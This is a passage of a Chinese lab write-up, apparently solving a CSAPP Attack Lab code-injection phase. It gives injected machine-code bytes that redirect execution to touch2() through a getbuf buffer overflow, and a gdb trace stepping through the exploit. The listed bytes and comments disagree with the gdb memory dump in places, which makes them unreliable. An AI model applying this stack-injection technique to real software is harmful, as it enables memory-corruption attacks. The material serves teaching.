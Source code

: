 然而我的做法比较逆天：

```
bf 97 dc 61 55            # mov $0x5561dc97, %edi
48 83 ec 30               # sub $0x20, %rsp
c3                        # retq
90 90 90 90 90 90

ec 17 40 00 00 00 00 00   # touch2()

...

78 dc 61 55 00 00 00 00   # 注入代码的地址
```

大概就是直接操控%rsp，让它直接指向`touch2()`。

把 gdb 贴出来(地址`0x5561dc7d`对应的是`sub $0x20, %rsp`)：

```
Breakpoint 1, getbuf () at buf.c:12
12      in buf.c
(gdb) continue
Continuing.

Breakpoint 2, 0x00000000004017b9 in getbuf () at buf.c:16
16      in buf.c
(gdb) x/6g $rsp
0x5561dc78:     0xec834859b997fabf      0x909090909090c320
0x5561dc88:     0x00000000004017ec      0x6464646464646464
0x5561dc98:     0x6565656565656565      0x000000005561dc78
(gdb) stepi
0x00000000004017bd      16      in buf.c
(gdb) stepi
0x000000005561dc78 in ?? ()
(gdb) x/6g $rsp
0x5561dca8:     0x0000000000000000      0x0000000000401f24
0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
(gdb) stepi
0x000000005561dc7d in ?? ()
(gdb) x/6g $rsp
0x5561dca8:     0x0000000000000000      0x0000000000401f24
0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
(gdb) stepi
0x000000005561dc81 in ?? ()
(gdb) x/6g $rsp
0x5561dc88:     0x00000000004017ec      0x6464646464646464
0x5561dc98:     0x6565656565656565      0x000000005561dc78
0x5561dca8:     0x0000000000000000      0x0000000000401f24
(gdb) print /x ($edi)
$9 = 0x59b997fa
(gdb) stepi
touch2 (val=1505335290) at visible.c:40
40      visible.c: No such file or directory.
```
